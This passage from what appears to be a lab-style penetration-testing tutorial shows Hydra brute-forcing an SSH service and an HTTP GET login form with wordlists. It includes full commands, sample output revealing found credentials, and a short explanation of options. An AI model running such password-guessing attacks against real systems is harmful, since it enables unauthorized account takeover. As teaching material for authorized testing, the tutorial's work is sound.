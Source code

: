 ```shell
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
        
```

#### HTTP login pages

In this scenario, we will brute-force `HTTP login pages`. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether `GET` or `POST`. Checking hydra options: `hydra http-get-form -U`, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need  to send, and that could be done either by using your browser dev tools  or using a web proxy such as Burp Suite.

- **hydra**

```shell
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
        
```

`-l` admin we are specifying a single username, use-L for a username wordlist

`-P` Path specifying the full path of wordlist, you can specify a single password by using -p.
